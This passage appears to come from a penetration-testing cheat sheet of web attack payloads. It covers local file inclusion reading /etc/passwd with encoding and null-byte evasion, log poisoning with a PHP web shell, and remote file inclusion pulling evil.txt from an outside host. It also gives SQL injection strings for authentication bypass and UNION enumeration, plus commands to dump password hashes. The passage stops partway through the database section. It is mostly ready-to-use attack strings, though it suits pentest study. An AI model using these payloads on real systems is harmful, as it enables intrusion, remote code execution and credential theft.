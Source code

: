     -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)
 
    -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)
 
    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00
 
    -   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`
 
    -   For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
       
        */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"  
       
        `include($_REQUEST["file"].".php");`
 
    -   Remote File Inclusion  
   
         `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt `
       
         `<?php echo shell\_exec("ipconfig");?>`
 
-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------
 
    -   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password  
   
              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;
 
    -   Authentication Bypass  
   
              name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;
 
    -   Enumerating the Database  
   
        `http://192.168.11.35/comment.php?id=738)'`  
       
        Verbose error message?  
       
        `http://$ip/comment.php?id=738 order by 1`
       
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  `
       
        Determine MySQL Version:  
       
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6  `
       
        Current user being used for the database connection:
       